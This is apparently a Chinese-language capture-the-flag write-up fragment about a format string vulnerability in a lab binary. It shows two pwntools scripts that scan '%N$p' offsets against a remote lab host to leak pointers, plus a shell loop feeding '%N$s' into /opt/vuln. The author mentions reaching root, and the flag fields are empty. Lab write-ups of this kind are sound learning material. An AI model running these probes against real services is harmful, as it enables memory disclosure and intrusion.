  

>确实是root权限
>

```
from pwn import *
import re
import time

context(log_level="DEBUG")
found_offset = None

# 扫描有效偏移
for offset in range(1, 21):
    try:
        p = remote("192.168.137.189", 12345)
        p.recvuntil(b"try:\n")
        payload = f"%{offset}$p".encode()
        if len(payload) > 5:
            p.close()
            continue
        p.sendline(payload)
        data = p.recvall()
        if b'0x' in data:
            addr_str = data.split(b'0x')[-1].split()[0][:12]  # 取12字符防止超长
            try:
                addr = int(addr_str, 16)
                # 检查堆地址特征
                if (0x550000000000 < addr < 0x570000000000) or (0x7f0000000000 < addr < 0x800000000000):
                    log.success(f"Found candidate offset {offset}: {hex(addr)}")
                    found_offset = offset
                    break
            except: pass
        p.close()
    except: p.close()
```

  

>不是很懂卡住了
>

>继续看gtp，又给了个脚本
>

```
from pwn import *

context(log_level="DEBUG")
target_ip = "192.168.137.189"
target_port = 12345

# 扫描有效偏移 (5-20)
found_offset = None
for offset in range(5, 21):
    try:
        p = remote(target_ip, target_port)
        p.recvuntil(b"try:\n")
        payload = f"%{offset}$p".encode()  # 如"%7$p" (5字节)
        p.sendline(payload)
        resp = p.recvall(timeout=1).strip()
        
        # 验证地址有效性
        if resp.startswith(b"0x"):
            addr = int(resp, 16)
            # 堆地址特征: 0x55/0x56开头 或 大页地址(0x7f)
            if (0x550000000000 <= addr < 0x570000000000) or (0x7f0000000000 <= addr < 0x800000000000):
                if addr & 0xFFF == 0:  # 堆地址末位常对齐为0
                    log.success(f"Found heap pointer at offset {offset}: {hex(addr)}")
                    found_offset = offset
                    break
        p.close()
    except: 
        p.close()
```

>很长叽里咕噜的但是发送是可以看得见，单纯%数字$s即可我们可以直接用简单操作
>

  
  

```
for i in $(seq 5 21);do echo $i;echo "%$i\$s"|/opt/vuln;done
```

>这样就出现了，直接exp.py,看不到返回值那个脚本还是这个好
>

  

>ok,结束下班，刚好学一个格式化字符串漏洞，感谢大佬
>

>userflag:
>
>rootflag:
>

